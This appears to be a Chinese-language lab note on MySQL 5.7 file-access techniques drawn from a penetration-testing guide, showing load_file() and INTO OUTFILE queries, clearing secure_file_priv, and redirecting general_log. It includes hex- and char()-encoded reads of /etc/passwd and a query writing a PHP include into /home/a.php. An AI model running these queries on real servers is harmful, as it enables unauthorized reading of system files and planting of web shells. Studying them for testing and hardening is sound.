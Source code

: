 ## load_file()/ into outfile()


这里使用  mysql v 5.7.27  centos7

用load_file()搜索一个存在目录的文件,发现返回null，默认没开权限，只能导入导出mysql数据库目录下文件。

	mysql> select load_file('/home/a.php');
	+--------------------------+
	| load_file('/home/a.php') |
	+--------------------------+
	| NULL                     |
	+--------------------------+
	1 row in set (0.00 sec)

查 secure 权限

	mysql> show global variables like '%secure%';
	+--------------------------+-----------------------+
	| Variable_name            | Value                 |
	+--------------------------+-----------------------+
	| require_secure_transport | OFF                   |
	| secure_auth              | ON                    |
	| secure_file_priv         | /var/lib/mysql-files/ |
	+--------------------------+-----------------------+
	3 rows in set (0.01 sec)

默认路径 /var/lib/mysql-files/

在该路径 新建 a.php，导入。

	mysql> select load_file("/var/lib/mysql-files/a.php");
	+-----------------------------------------+
	| load_file("/var/lib/mysql-files/a.php") |
	+-----------------------------------------+
	| sss
	                                    |
	+-----------------------------------------+
	1 row in set (0.00 sec)

可以看到结果。

搜索mysql配置文件my.cnf

	whereis my.cnf

	vi /etc/my.cnf

在 my.cnf 的  ```[mysqld]``` 下新建

```secure_file_priv=```,为空表示允许导入导出任意目录


导入命令 ```select '<?php include 'publicguide.jpg' ?>'INTO OUTFILE '/home/a.php'```

	mysql> show global variables like '%secure%';
	\+--------------------------+-------+
	| Variable_name            | Value |
	+--------------------------+-------+
	| require_secure_transport | OFF   |
	| secure_auth              | ON    |
	| secure_file_priv         |       |
	+--------------------------+-------+
	3 rows in set (0.01 sec)

重启mysql  ```service mysqld restart```

权限生效，可以用load_file()查看系统任意文件。



	select load_file(0x2F6574632F706173737764);

或  	
	select load_file(char(47,101,116,99,47,112,97,115,115,119,100));

分别表示ASCII字符```/etc/passwd```   的16进制和10进制  

等价于  ```select load_file('/etc/passwd');```



	mysql> select '1' into outfile '/etc/aaa/php';
	ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

导出到默认开启的目录下

	mysql> select '1' into outfile '/var/lib/mysql-files/aaa.php';
	Query OK, 1 row affected (0.00 sec)

## general_log_file

	mysql> show global variables like "%genera%";
	+------------------+-----------------------------------+
	| Variable_name    | Value                             |
	+------------------+-----------------------------------+
	| general_log      | OFF                               |
	| general_log_file | /var/lib/mysql/VM_32_9_centos.log |
	+------------------+-----------------------------------+
	2 rows in set (0.00 sec)

v 5.7.27 默认查询内容不写日志

手动开启些写日志

	set global general_log='on';

还可以给日志文件新的路径

	SET global general_log_file='/var/lib/mysql/VM_32_9_centos.log2';







## 参考资料


[MySQL数据库渗透及漏洞利用总结](https://mp.weixin.qq.com/s?__biz=MzIyNjE4NDcyMA==&mid=2247484839&idx=1&sn=16720fb8e035c8bbe612d738839262c5&chksm=e8751ed8df0297ce54ef5acabd5a42f66f81f66b56b168ba80a3af5d55877d546aee33dd8510&scene=0#rd)